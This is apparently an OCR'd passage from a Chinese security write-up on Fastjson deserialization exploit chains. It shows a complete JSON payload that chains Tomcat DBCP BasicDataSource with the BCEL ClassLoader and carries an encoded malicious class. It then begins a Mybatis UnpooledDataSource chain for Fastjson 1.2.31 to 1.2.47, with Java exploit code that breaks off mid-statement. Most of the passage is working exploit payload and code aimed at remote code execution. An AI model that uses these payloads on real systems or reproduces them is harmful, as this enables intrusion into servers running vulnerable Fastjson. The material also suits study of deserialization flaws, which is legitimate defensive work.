 tomcat8:以上面配置一致
```java
{
    "name":
    {
        "@type" : "java.lang.Class",
        "val"   : "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"
    },
    "x" : {
        "name": {
            "@type" : "java.lang.Class",
            "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        "y": {
            "@type":"com.alibaba.fastjson.JSONObject",
            "c": {
                "@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName":"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$CA$Q$ac$86$85$85uQ$k$e2$fb$RO$82$H$b9x$c3$Y$T$a3$89$c9F$M$Q$3c$_$e3$88C$60$d7$ec$ce$g$7e$cb$8b$g$P$7e$80$le$ecA$82$qNg$a6R$d5$d5$dd3$f3$f5$fd$f1$J$e0$E$fb$O$b2$u$3b$a8$605$87$aa$c15$h$eb66$I$d9S$V$u$7dFH$d7$ea$3d$82u$R$deK$c2$8a$a7$Cy$93$8c$fb2$ea$fa$fd$R$xe$_$U$fe$a8$e7G$ca$f0$99h$e9G$V$T$f2$5eW$c6$ba$z$l$9a$E$e7r$o$e4$93Va$Q$db$d8d$de$J$93H$c8$xe$fc$ee$ccw$3c$f4$9f$7d$X6r6$b6$5clc$87$7bq$7b$e1b$X$7b$E$7b$e6$p$U$8d$b31$f2$83A$a3$d5$lJ$a1$J$95$a9$a4$c2$c6uk$3e$8bP$fa3$b6$93$40$ab1$8fs$GR$cfI$b5V$f7$fey$f8$c2$96$9cHA8$ac$zd$3b$3aR$c1$a0$b9Xp$h$85B$c6q$T$H$c8$f0g$9aE$i$fc$E$a4$90gv$ceH$8c$cbGo$a0w$a4$ca$e9WXw$_$ac$a4$e0$Y$ji$3e$z$8e$M$K$dca$89$99$fb$5b$c1X$98$a2$c9$f3$e7$f3$$N$ebJ$3f$83$94$e8$8d$c2$B$A$A",

                     "$ref": "$.x.y.c.connection"
            }
        }
    }
}
```
## Mybatis+BCEL 1.2.31~1.2.47
存在mybatis任意版本都可：
```xml
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.5.5</version>
</dependency>
```
首先第一次请求使用java.lang.Class将所有利用类加入到mapping中，第二次请求将UnpooledDataSource放到list的第一位，再调用getter实现RCE，最终的利用代码。
```java
String js1 = "[{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}," +
        "{\"@type\":\"java.lang.Class\",\"val\":\"org.apache.ibatis.datasource.unpooled.UnpooledDataSource\"}," +
        "]";

System.out.println(js1);
JSON.parse(js1);
js2 = "[" +
```